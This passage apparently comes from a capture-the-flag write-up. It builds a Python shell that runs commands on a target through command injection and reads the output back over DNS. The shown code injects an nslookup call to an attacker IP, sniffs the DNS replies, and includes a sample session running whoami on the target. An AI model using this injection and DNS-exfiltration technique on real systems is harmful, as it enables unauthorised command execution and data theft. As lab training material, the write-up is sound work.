 

     12 kill_domain = "0xdf.0xdf."
    ...
     23     def run(self):
     24         sniff(iface=self.interface, filter=f"src host {self.target_ip} and udp port 53",
     25                 prn=self.parse_packet, stop_filter=lambda p: p.haslayer(DNS) and
     26                 p.getlayer(DNS).qd.qname.decode('utf-8') == kill_domain)



Then I'll add a `do_exit` function that gets Ethereal to send a query
for that domain, and then exits:



     79     def do_exit(self, args):
     80         self.send_post(f'& nslookup {kill_domain} 10.10.14.14')
     81         sys.exit()



I'll add a check in `parse_packet`, as the `prn` gets called first, to
not print this domain:



     31             domain = p.getlayer(DNS).qd.qname.decode('utf-8')
     32             if domain == kill_domain: return



It works:



    root@kali# ./ethereal_shell.py
    ethereal> whoami
    etherealalan
    ethereal> exit
    root@kali#



I can also add a wrapper around my `cmdloop` to catch ctrl-c:



     94 try:
     95     term.cmdloop()
     96 except KeyboardInterrupt:
     97     term.do_exit('')



### quiet Command

There are a bunch of cases where I need to send a command that I don't
need output for. And there are cases where the for loop into `nslookup`
is causing issues. For this reason, I'll create a `quiet` command. This
will take a command and just run it via the injection without the exfil
of the response. To add a command in a Cmd terminal, I just create a
function `do_[cmd_name]`:
